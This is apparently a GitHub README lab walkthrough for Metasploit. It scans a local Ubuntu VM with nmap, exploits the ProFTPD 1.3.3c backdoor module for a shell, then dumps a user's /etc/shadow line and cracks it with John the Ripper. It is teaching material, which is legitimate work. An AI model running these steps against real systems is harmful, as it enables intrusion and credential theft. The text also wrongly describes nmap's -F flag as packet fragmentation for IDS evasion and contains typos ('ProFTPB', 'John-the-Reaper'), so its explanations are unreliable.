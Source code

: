 # Metasploit-Framework-Introduction
We need to Virtual Machines for this experiment.

## Attacking Machine:
![image](https://github.com/user-attachments/assets/d2481ddc-ef86-4426-af92-c3b2ab785c88)

Network Settings:

![image](https://github.com/user-attachments/assets/ce21e70b-cecf-4ebb-a281-ade56810001e)

IP Address:

![image](https://github.com/user-attachments/assets/beaaa940-19ee-4959-8083-6ba19fd6adec)

192.168.56.102

## Target Machine:

![image](https://github.com/user-attachments/assets/4f7617b3-bd6a-416a-82a3-a34393addcf9)

Network Settings:

![image](https://github.com/user-attachments/assets/5ff4c676-08ae-41bd-b449-0e44cd329f7e)

IP Address:

![image](https://github.com/user-attachments/assets/b29b9698-e14c-4c87-9dc8-bd6007922fc0)

192.168.56.101

## Reconnaissance:

We recon the target device (the Ubuntu machine), we at least collect its IP Address and Username.

Some rudimental methods of recon can be found in the article linked [here](https://dataoverhaulers.com/reconnaissance-in-ethical-hacking/)

## Scanning (using nmap):

At the attacking/Kali VM, scan the target/Ubuntu VM by ‘nmap -F -sV {the IP address of the Target VM}’ to get the list of services and their versions (attack surface).

```
nmap -F -sV {the IP address of the Target VM}
```

-F (Fragmentation): This option fragments the packets being sent during the scan. It breaks the IP packets into smaller pieces to avoid detection by intrusion detection systems (IDS) or firewalls, as fragmented packets are more difficult for such systems to analyze.

-sV (Service Version Detection): This option attempts to determine the version of the services running on the open ports. Nmap sends probes to services and analyzes the responses to identify specific software versions and additional information like service banners.

![image](https://github.com/user-attachments/assets/61e4fb21-29ee-4e27-9c46-a9ca6f708df1)

## MSF Console:

Bring up ‘msfconsole’ from the attacking/Kali VM.

![image](https://github.com/user-attachments/assets/df138b8e-d67b-4e5b-8026-d7b0d4d01bfc)

Inside msfconsole:

'search’ the arms in the arsenal against the service the target machine provided. The arms are service version sensitive, that was the reason we needed to use the -sV option in the nmap scan.

Since after performing the nmap scan we found that ProFTPD was on of the services that is open, we use the msf command:

```
search ProFTPB
```

![image](https://github.com/user-attachments/assets/c01581fc-5456-400e-8eab-c10afd2f99f9)

Then we find some potential vulnerabilities that we could exploit in our target system.

![image](https://github.com/user-attachments/assets/b04453c4-91b8-4f7e-bd2e-50cd6878509f)

We use the following command to start using one of the listed backdoor vulnerabilities:

```
use exploit/unix/ftp/proftpd_133c_backdoor
```

Then we ask msfconsole to show the options:

```
show options
```

Setting the target host we are attacking:

```
set RHOST 192.168.56.101
```

![image](https://github.com/user-attachments/assets/45f5c034-a893-431a-9e0a-cb5ac50e4939)

We type the following command and press TAB button twice or a few times, which lists all the available payloads. Then we try to exploit each one to see which one gets us the access to the terminal of the target system.

```
set payload {press TAB twice or a bit more}
```

```
exploit {the payloads path from the list}
```

When we are in the terminal we can begin our command and control part of the attack.

![image](https://github.com/user-attachments/assets/656f6841-29bf-456a-bcac-678c78ebf9c0)

# Cracking Password for the Ubuntu machine with username: marlinspike

![image](https://github.com/user-attachments/assets/5b3a21c8-3de3-4f55-ba70-57b939032944)

We use the command below to open the /etc/shadow file and extract the line corresponding to the user marlinspike:

```
sudo cat /etc/shadow | grep marlinspike
```

![image](https://github.com/user-attachments/assets/dc047963-b001-49b0-b860-13b4b6b17cde)

We save the output to a text file.

```
sudo cat /etc/shadow | grep marlinspike > shadowMarlinspike.txt
```

![image](https://github.com/user-attachments/assets/c79f7197-fb3d-47f5-9a0a-7302454fc386)

Then we use the command john (John-the-Reaper) to crack the password.

```
john shadowMarlinspike.txt
```

We can login with that password in the target machine:

![image](https://github.com/user-attachments/assets/0d4227b4-0c99-4f39-9e53-015273c06ee5)

![image](https://github.com/user-attachments/assets/04ec9ed9-3910-4e70-8d46-057770871a11)

